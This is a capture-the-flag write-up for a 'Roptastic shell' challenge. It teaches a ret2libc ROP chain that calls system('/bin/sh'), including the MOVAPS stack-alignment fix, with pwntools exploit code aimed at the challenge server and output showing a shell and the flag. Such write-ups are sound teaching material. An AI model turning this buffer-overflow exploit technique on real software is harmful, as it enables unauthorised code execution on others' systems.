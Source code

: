 # Roptastic shell

<p align="center">
<img src="./utils/roptastic_shell.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain that calls system("/bin/sh")
Use the menu options to lookup the address of system(),
and to add the "/bin/sh" string as an argument.

Google these terms for help:
- ret2libc

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

The program for this challenge is similar to the earlier ones, but we have to spawn a shell instead of just setting popping values into registers. For this solve, we will utilize the options which prints the gadgets, writes a string to the binary, and looks up the address of a symbol in the binary (the last two weren't used in the previous challenges).


Our goal is similar to the `did someone say ret2win?` challenge, only that we want to call `system("/bin/sh")` instead of `win()`. To do this we need three things: the address of the `pop_rdi` gadget, the address of the string `/bin/sh` in the binary, and the address of `system`. The `pop_rdi` gadget we already know, and it is also printed to us when we choose option `5`. We don't know the address of the string `/bin/sh` in the binary, so we will add it ourselves using option `7`. The address of `system` we can look up using option `6`.
```python
from pwn import *

# Connect to remote instance
io = remote("pwn.tokle.dev", 1342)

# Receive all the output text from the program
io.recvuntil(b"Good luck!")

def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx

def add_str(string):
    io.sendlineafter(b"> ", b"7")
    io.sendlineafter(b"String: ", string)
    io.recvuntil(b"String at: ")
    return int(io.recvline().strip(), 16)

def get_symbol_addr(symbol):
    io.sendlineafter(b"> ", b"6")
    io.sendlineafter(b"Symbol: ", symbol.encode())
    io.recvuntil(f"{symbol}: ".encode())
    return int(io.recvline().strip(), 16)

# Get address of gadgets
pop_rdi, pop_rsi, pop_rdx = get_gadgets()
log.success(f"Pop RDI @ {hex(pop_rdi)}")
log.success(f"Pop RSI @ {hex(pop_rsi)}")
log.success(f"Pop RDX @ {hex(pop_rdx)}")

# Add "/bin/sh" string
binsh = add_str(b"/bin/sh")
log.success(f"/bin/sh @ {hex(binsh)}")

# Get address of "system" function
system = get_symbol_addr("system")
log.success(f"system @ {hex(system)}")
```

As we have everything we need we can assemble our payload to get a shell! We know that the offset to the saved return address is 136 bytes. Inside `rdi` we need to put the address of `/bin/sh`, not the string itself! This is because the argument to the `system` function is the address where the string is located, not the string itself. Lastly, after we have set the `rdi` register to the address of `/bin/sh`, we call the `system` function.

```python
# ROP to get shell
payload = b"A"*136
payload += p64(pop_rdi) # "pop rdi; ret;" gadget
payload += p64(binsh)   # Address where "/bin/sh" string is stored
payload += p64(system)  # Address of "system" function
```

Sending and triggering the payload should then call `system("/bin/sh")` for us, and give us shell!
```python
# Send and trigger payload
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"Data: ", payload)
io.sendlineafter(b"> ", b"8")

io.interactive()
```


But it doesn't work... This is because of something called [The MOVAPS Issue](https://ropemporium.com/guide.html#common-pitfalls). TLDR; We need to put the call to system on a stack address ending in 0, not 8. Because we cannot reduce our payload with 8 bytes (we cannot remove the padding, because then we don't overwrite the return address as we want), we have to add 8 more bytes before we call system. The "standard" way to do this is to use another gadget: `ret;`. Luckily, this gadget is *everywhere* in binaries, so even though we are not given the explicit address of it in this challenge, we can still find it easily.

The first way to find the gadget is to add 1 to the address of our `pop_rdi` gadget. Because the `pop_rdi` gadget ends with a `ret` instruction (pop rdi; ret;), and the `pop rdi` gadget is only a single byte, if we add 1 we get only the `ret` part of that gadget.

Another way to find a `ret` gadget is by knowing that the original saved return address is a gadget with the operations `mov eax, 0; leave; ret;`. The `mov` instruction is 3 bytes in size, and the `leave` instruction is 1 byte in size. Therefore we know that a `ret` instruction is located at the address of the saved return address + 4 bytes.
The following full exploit script will use the first option, but both work equally good.

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1342: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[+] /bin/sh @ 0x475480
[+] system @ 0x788dd6f07d70
[*] Switching to interactive mode
$ cat flag.txt
flag{ropping_your_way_to_flags}
```
